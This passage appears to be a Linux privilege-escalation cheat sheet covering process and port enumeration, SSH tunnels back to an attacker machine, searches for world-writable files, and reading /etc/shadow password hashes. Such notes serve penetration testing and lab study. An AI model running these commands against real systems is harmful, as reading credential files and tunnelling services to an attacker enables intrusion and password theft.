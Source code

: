 ## Running processes & Service Exploits

**Enumerate running process**

```bash
ps aux
ps aux | grep root
```

**Enumerate local ports**

```bash
netstat -ano
```

```bash
ss -anp
```

If the ports only allow internal access, use port forwarding techniques.
Port forwarding from victim machine (SSH server listen on attacker):

```
ssh -f -N -R 3306:127.0.0.1:3306 kali@192.168.49.10
```

Port forwarding from attacker machine (SSH server listen on victim):

```
ssh -f -N -L 3306:127.0.0.1:3306 user@192.168.10.10
```

## Weak File Permissions

List world writable files on the system.

```bash
find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
find / -perm -2 -type f 2>/dev/null
find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null
```

### /etc/shadow

!!! info
The /etc/shadow file contains user password hashes

Get /etc/shadow permissions

```bash
ls -l /etc/shadow
```

#### Readable /etc/shadow

```bash
cat /etc/shadow
```
